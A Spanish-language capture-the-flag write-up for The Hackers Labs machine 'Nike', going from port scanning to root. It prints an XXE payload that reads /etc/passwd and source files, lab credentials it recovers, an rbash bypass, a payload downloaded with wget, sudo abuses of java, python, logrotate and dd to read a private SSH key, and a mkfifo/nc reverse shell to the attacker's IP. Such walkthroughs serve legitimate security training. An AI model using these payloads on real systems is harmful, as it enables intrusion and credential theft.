










# 🖥️ Write-Up: [Nike-THL](https://labs.thehackerslabs.com/machine/170)

## 📌 Información General
    - Nombre de la máquina: Nike
    - Plataforma: The Hackers Labs
    - Dificultad: Avanzado
    - Creador: wvverez_
    - OS: Linux
    - Objetivos: Obtención de la Flag de usuario y de root
---

## 🔍 Enumeración

Nuestra máquina tiene la ip **10.0.2.7**

La máquina Nike tiene la ip **10.0.2.46**

### Descubrimiento de Puertos

Vamos a empezar enumerando todos los puertos abiertos de la máquina utilizando la herramienta **nmap**.

```bash
# Nmap 7.98 scan initiated Sat Feb 21 04:43:50 2026 as: /usr/lib/nmap/nmap -sS -p- --open --min-rate 5000 -n -Pn -oN allPorts 10.0.2.46
Nmap scan report for 10.0.2.46
Host is up (0.00049s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:E2:3C:71 (Oracle VirtualBox virtual NIC)
```

La máquina tiene abiertos los puertos **22** y **80**. Ahora vamos a ver que versiones y servicios se están ejecutando en ellos.

```bash
# Nmap 7.98 scan initiated Sat Feb 21 04:44:10 2026 as: /usr/lib/nmap/nmap -sS -p22,80 -sCV -n -Pn -oN target 10.0.2.46
Nmap scan report for 10.0.2.46
Host is up (0.00042s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 af:79:a1:39:80:45:fb:b7:cb:86:fd:8b:62:69:4a:64 (ECDSA)
|_  256 6d:d4:9d:ac:0b:f0:a1:88:66:b4:ff:f6:42:bb:f2:e5 (ED25519)
80/tcp open  http    Apache httpd 2.4.62 ((Debian))
|_http-server-header: Apache/2.4.62 (Debian)
|_http-title: Tienda Nike - Zapatillas
MAC Address: 08:00:27:E2:3C:71 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- El puerto 22 está ejecutando un servicio de OpenSSH.  
- El puerto 80 está ejecutando un servicio web con Apache.

### Puerto 80

Accedemos con el navegador y vemos la web de una tienda.

Revisando la web y su código fuente no encontramos nada, así que procedemos a enumerar subdirectorios con **gobuster**.



Vemos dos subdirectorios interesantes:
- **upload.php** al acceder nos muestra el mensaje "No proporcionado"
- **datos.php** nos devuelve un **Internal Server Error**

## 🔥 Explotación

Vamos a enviar una petición por el método **POST** a **/upload.php** simulando el envío de datos.



La respuesta nos indica que falta el signo **<**, lo que nos sugiere la posibilidad de una **XXE**. Vamos a enviar la siguiente inyección:

```xml
<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE foo [<!ELEMENT foo ANY ><!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>
```



Podemos leer archivos, así que vamos a aplicar un **wrapper de php** para leer el **datos.php** que habíamos enumerado anteriormente.

```bash
curl -s http://10.0.2.46/upload.php -X POST -H "Content-type:application/x-www-form-urlencoded" -d '<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE foo [<!ELEMENT foo ANY ><!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=datos.php" >]><foo>&xxe;</foo>'
```

Nos devuelve contendio en base64 y al decodificarlo obtenemos diferentes credenciales:

```php
<?php
$user = "mike";
$pass = "oK)Lpk3#mmK!#p";
$dni_user = "74239813V";
$num_user = "+34 678 912 395";

$user = "wvverez";
$pass = "jKolpmd2f0dmko07x!@kk%";
$dni_user = "679145983X";
$num_user = "+ 34 922 178 452"

$user = "pylon";
$pass = "rp&swp)lkfg23lio";
$dni_user = "632159321M";
$num_user = "+ 34 611 459 112";

$user = "macci";
$pass = "koplsdm$%#jokk*mloker";
$dni_user = "547891239U";
$num_user = "+ 34 678 125 226";

$user = "n";
$pass = "kjlso%#mssa*nmccasca$%";
$dni_user = "432986104B";
$num_user = "+34 911 763 689";

if ($_SERVER['REQUEST_METHOD'] !== 'CLI') {
    http_response_code(403);
    die("Access Denied.");
}
?>
```


## 🔑 Acceso SSH
### Mike

Entramos al servicio **SSH** con las credenciales de **mike** pero este usuario tiene una **rbash**, por lo que en el comando **ssh** ponemos **bash** al final para evitarla

```bash
ssh mike@10.0.2.46 bash
```



## 🧗 Escalada de Privilegios
### N

Podemos ejecutar **java** como el usuario **n**

En nuestra máquina nos creamos un **Exploit.java** para que nos lance una bash

```java
public class Exploit {
    public static void main(String[] args) {
        try {
            Process p = new ProcessBuilder("/bin/bash").inheritIO().start();
            p.waitFor();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```
Levantamos un servidor http con python3 y con wget en la máquina victima transferimos nuestro archivo al directorio **/tmp**

```bash
python3 -m http.server 80
```

```bash
wget http://10.0.2.7/Exploit.java 
```

Le damos permisos de ejecución y lo usamos, es importante que el archivo esté en el **/tmp** o cualquier otro directorio en el que **n** tenga permisos

```bash
sudo -u n java Exploit.java
```
Ya somos el usuario **n**

### Pylon

Como el usuario **n** podemos ejecutar con **python3** un script del directorio **opt** como **pylon**



Este script nos pertenece así que lo modificamos para que nos lance una **bash**

```bash
echo 'import os; os.system("/bin/bash")' > /opt/suma.py
``` 

Ahora lo ejecutamos como **pylon**

```bash
sudo -u pylon python3 /opt/suma.py
```
Nos convertimos en el usuario **pylon**

### Macci

Para trabajar más cómodamente en esta parte, vamos a crear unas **ssh keys** y volver a conectarnos como **pylon** con ellas.

Podemos ejecutar **logrotate** como el usuario **macci**



Para poder lanzarnos una reverse shell primero vamos a crear un archivo **test.log** en el directorio **/tmp**, a este archivo le vamos a añadir contenido aleatorio.

```bash
head -c 2000 /dev/urandom > /tmp/test.log
```

Ahora creamos un archivo de configuración de logrotate que nos va a ejecutar una reverse shell a nuestro equipo, lo llamamos **exploit.conf**

```bash
cat << EOF > /tmp/exploit.conf
/tmp/test.log {
    daily
    size 1k
    firstaction
        rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.0.2.7 443 > /tmp/f &
    endscript
}
EOF
```

Nos ponemos en escucha en nuestra máquina con **Netcat**

```bash
nc -nlvp 443
```

Y ejecutamos
 
```bash
sudo -u macci logrotate -s /tmp/status /tmp/exploit.conf
```



Somos el usuario **macci**, ahora realizamos el tratamiento de la **TTY**


### Wvverez

Podemos ejecutar como el usuario **wvverez** el comando **dd**, así que lo vamos a usar para obtener su **id_rsa**



```bash
sudo -u wvverez dd if=/home/wvverez/.ssh/id_rsa
```

La usamos para acceder como el usuario **wvverez** y ya tenemos la flag de usuario



### Root

Nuestro usuario pertenece al grupo **ctf_admins** y si revisamos archivos con permisos **SUID** encontramos **/usr/local/bin/sys_monitor**, este binario **SUID** puede ser ejecutado por nuestro grupo.

Probando el binario vemos que dispone de 3 funciones, listar contenido, ver contenido de los logs y ejecutar comandos, por lo que debido a sus permisos los comandos se ejecutan como **root**.

Nos lanzamos una **bash privilegiada** con su función número 3 y somos **root**

